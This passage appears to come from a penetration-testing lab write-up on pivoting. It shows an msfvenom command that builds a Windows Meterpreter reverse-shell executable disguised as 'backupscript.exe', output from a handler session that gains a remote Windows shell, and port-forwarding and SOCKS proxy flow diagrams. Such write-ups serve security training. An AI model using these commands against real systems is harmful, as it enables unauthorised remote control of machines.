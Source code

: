 ### **Generate Windows Payload**

```bash
# Create payload pointing to Ubuntu pivot
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234

# Expected Output:
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

### **Execute Payload and Receive Shell**

```bash
# After executing payload on Windows target
[*] Started reverse TCP handler on 0.0.0.0:8081 
[*] Sending stage (200262 bytes) to 10.10.14.18
[*] Meterpreter session 2 opened (10.10.14.18:8081 -> 10.10.14.18:40173) at 2022-03-04 15:26:14 -0500

meterpreter > shell
Process 2336 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>
```

---

## **8. Traffic Flow Analysis**

### **Local Port Forwarding Flow**
```
[Attack Host:xfreerdp] → [localhost:3300] → [Meterpreter Session] → [Windows:3389]
```

### **Reverse Port Forwarding Flow**
```
[Windows Target] → [Ubuntu:1234] → [Meterpreter Session] → [Attack Host:8081]
```

### **SOCKS Proxy Flow**
```
[proxychains nmap] → [localhost:9050] → [SOCKS Proxy] → [Meterpreter Session] → [Target Network]
```

---